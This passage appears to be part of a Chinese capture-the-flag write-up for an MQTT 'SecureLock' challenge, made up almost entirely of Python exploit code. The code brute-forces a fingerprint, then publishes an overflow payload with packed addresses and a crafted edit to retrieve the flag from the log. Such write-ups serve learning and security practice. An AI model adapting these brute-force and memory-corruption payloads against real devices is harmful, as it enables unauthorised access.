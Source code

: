 ```
            if self.log_changed:
                self.log_changed = False
                break
        res = self.log_content.split("%")[-1].split("\n")[0]
        print(res, buf)
        self.log_content = ""
        return float(res)
```

### 爆破指纹

```
if __name__ == "__main__":
    tester = SecureLockTester(
        host="127.0.0.1",
        port=8883,
        ca_certs="src/ca.crt",
        insecure=True
    )
    try:
        if tester.test_secure_connection():
            tester.generate_auth_token()
            tester.client.subscribe("logfile")
            sleep(1)
            fingerprint = tester.brute_fingerprint()
            print("Correct fingerprint:", fingerprint)
            tester.login(fingerprint)

    finally:
        tester.client.loop_stop()
        tester.client.disconnect()
```

### 获取 flag

```
if __name__ == "__main__":
    tester = SecureLockTester(
        host="127.0.0.1",
        port=8883,
        ca_certs="src/ca.crt",
        insecure=True
    )

    try:
        if tester.test_secure_connection():
            tester.generate_auth_token()
            tester.client.subscribe("logfile")
            tester.login(correct_finger)
            tester.add_finger(b"[" +b"\xff"*0x80 +b"]")
            tester.client.publish("auth_token", b'a'*0x44 + p32(0x35C1F0)+p32(10))
            sleep(1)
            tester.edit_finger(b'625',b'[0,0,0,0,0,0,0,0,0,0,1634493999,103,0,0,0,0,0,0,0,0]')
            tester.generate_auth_token()
            tester.download_log()
            print(tester.log_content)


    finally:
        tester.client.loop_stop()
        tester.client.disconnect()
```
